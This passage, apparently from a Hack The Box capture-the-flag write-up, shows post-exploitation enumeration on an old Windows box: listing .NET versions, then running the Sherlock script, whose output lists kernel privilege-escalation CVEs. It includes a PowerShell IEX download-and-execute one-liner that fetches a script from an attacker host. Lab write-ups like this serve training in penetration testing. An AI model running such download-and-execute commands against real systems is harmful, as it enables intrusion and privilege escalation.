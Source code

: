 

    PS C:\windows\microsoft.net\framework> ls


        Directory: C:\windows\microsoft.net\framework


    Mode                LastWriteTime     Length Name
    ----                -------------     ------ ----
    d----         22/8/2013   6:39 ??            v1.0.3705
    d----         22/8/2013   6:39 ??            v1.1.4322
    d----         22/8/2013   6:39 ??            v2.0.50727
    d----         20/3/2021   8:06 ??            v4.0.30319
    ...[snip]...



If I want to run Watson, I think I could get it to work by downloading
it and compiling it to match one of the .NET versions on the box, but I
wasn't able to get it working quickly. Instead, because this box is so
old, I went to Watson's predecessor,
[Sherlock](https://github.com/rasta-mouse/Sherlock). I showed both
Sherlock and Watson in the writeup of
[Bounty](/htb-bounty.md#enumeration) 2.5 years ago.

Sherlock is a PowerShell script. I'll download a copy, and see that it
defines a bunch of functions, but doesn't call any. I'll add a line at
the end to call `Find-AllVulns`. Then I'll use a Python HTTP server to
host a copy, and execute it the same way I got a shell:



    PS C:\> IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Sherlock.ps1')
                                                        
    Title      : User Mode to Ring (KiTrap0D)
    MSBulletin : MS10-015              
    CVEID      : 2010-0232
    Link       : https://www.exploit-db.com/exploits/11199/
    VulnStatus : Not supported on 64-bit systems

    Title      : Task Scheduler .XML
    MSBulletin : MS10-092                       
    CVEID      : 2010-3338, 2010-3888
    Link       : https://www.exploit-db.com/exploits/19930/
    VulnStatus : Not Vulnerable
                                                        
    Title      : NTUserMessageCall Win32k Kernel Pool Overflow
    MSBulletin : MS13-053                     
    CVEID      : 2013-1300
    Link       : https://www.exploit-db.com/exploits/33213/
    VulnStatus : Not supported on 64-bit systems
                                                        
    Title      : TrackPopupMenuEx Win32k NULL Page
    MSBulletin : MS13-081                   
    CVEID      : 2013-3881
    Link       : https://www.exploit-db.com/exploits/31576/
    VulnStatus : Not supported on 64-bit systems
                                                        